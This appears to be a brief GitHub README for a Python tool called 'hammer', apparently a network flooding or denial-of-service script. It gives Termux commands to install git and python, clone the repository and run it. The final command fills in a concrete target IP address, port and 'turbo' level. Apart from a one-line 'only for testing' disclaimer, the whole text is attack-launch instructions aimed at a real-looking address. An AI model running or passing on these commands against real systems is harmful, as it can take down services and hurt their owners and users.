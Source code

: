 # hammer
#This only for testing

 # command Teamux 
 <pre><span class="pl-c"></span>
  pkg update
  
  pkg upgrade
  
  pkg install git 
  
  pkg install python
  
  git clone https://github.com/AL-AlamySploit/hammer
  
  cd hammer
  
  python hammer.py -h
  
  python hammer.py -s [ ip ] -p [ port ] -t [ turbo ]
  
  python hammer.py -s 102.132.97.35 -p 8080 -t 135 </span></pre>
  
  
